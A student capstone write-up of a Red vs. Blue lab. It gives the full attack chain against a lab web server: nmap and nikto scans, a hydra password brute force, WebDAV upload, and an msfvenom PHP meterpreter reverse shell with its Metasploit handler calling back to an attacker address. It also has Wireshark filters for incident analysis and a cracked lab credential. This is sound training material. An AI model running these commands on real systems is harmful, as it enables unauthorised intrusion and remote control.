# Capstone Project: Red vs. Blue

For this project we were engaged in a black box penetration test. As part of the exercise we performed Red team activities including: reconnaissance, identification of vulnerabilities, attacks with different tools and scripts, and post exploitation tactics. For the Blue team portion we created a complete incident response summary and provided mitigation recommendations for the fictional organization.

### Red Team 
In this activity, you will use a Kali instance to hack into a vulnerable web server. Hidden in the web server is a file called `flag.txt`. You will need to use a reverse php shell to gain access to the web server to recover the `flag.txt` document. 

**Part 1: Red Team Objectives**
Complete the following in order to find the flag:
- Discover the IP address of the Linux server.
```
netdiscover
```


```
Db_nmap 172.16.84.205 -Pn -p-
```


```
Db_nmap 172.16.84.205 -A
```


```
Nikto --host http://172.16.84.205
```



```
printf “GET / HTTP/1.0\r\n\r\n” | nc 172.16.84.205 80 | less
```


- Use Burp Suite to generate a sitemap by manually browsing the site.


- Use Burp Spider to expand your sitemap.


- Locate the hidden directory on the server.
company_folders/secret_folder


- Brute force the password for the hidden directory.


```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder/
```



- Break the hash password with John the Ripper


- Connect to the server via Webdav.


- Generating a reverse shell with msfvenom.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.84.55 LPORT=6666 -f raw -or evil.php
```


- Upload a reverse php connection payload.


```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.84.55
LHOST => 172.16.84.55
msf exploit(handler) > set LPORT 6666
LPORT => 6666
msf exploit(handler) > exploit
```

- Capture and show the flag.
```
find / -type f -name 'flag.txt' 2>/dev/null -exec cat {} \'
```



### Blue Team 
In order to complete the Blue team portion of the capstone you will already need to have infiltrated the vulnerable machine, and have received the snort log. 

**Objectives**
- How long did the attack last?
The attack started when the TCP scan was initiated (NMAP)in the third and fourth frames. 


The attack ended when the PHP shell was activated in frame 61010. 


**Therefore, the attack lasted roughly 9 minutes and 25 seconds.**

- How many password attempts were made?
There were 10,143 password cracking attempts made with hydra.
```
http.user_agent == "Mozilla/4.0 (Hydra)"
```
  

- What time was the correct password found? 
The correct password was detected by hydra at the 4 minute and 44th second mark. 
```
http.authbasic == "ashton:leopoldo" && http.user_agent == "Mozilla/4.0 (Hydra)"
```


- What time was the shell placed onto the server?
```
http.request.uri contains "shell.php" && http.request.method == "PUT"
```


**The attacker placed the reverse PHP shell on the webdav server at the 7 minute and 36th second mark, however, based on the network traffic it looked like he struggled first and deleted his first shell. Also, he used the Gnome Virtual File System (GVFS) to connect to the webdav server and upload the malicious script. See below:**



- What time was the shell activated?
```
http.request.uri contains "shell.php" && http.request.method == "GET"
```
**The PHP script is run simply by browsing to the newly uploaded file in the web browser. This can be seen as a GET request in the captured network traffic. The shell was activated at the 9 minute and 25 second mark. See below:**

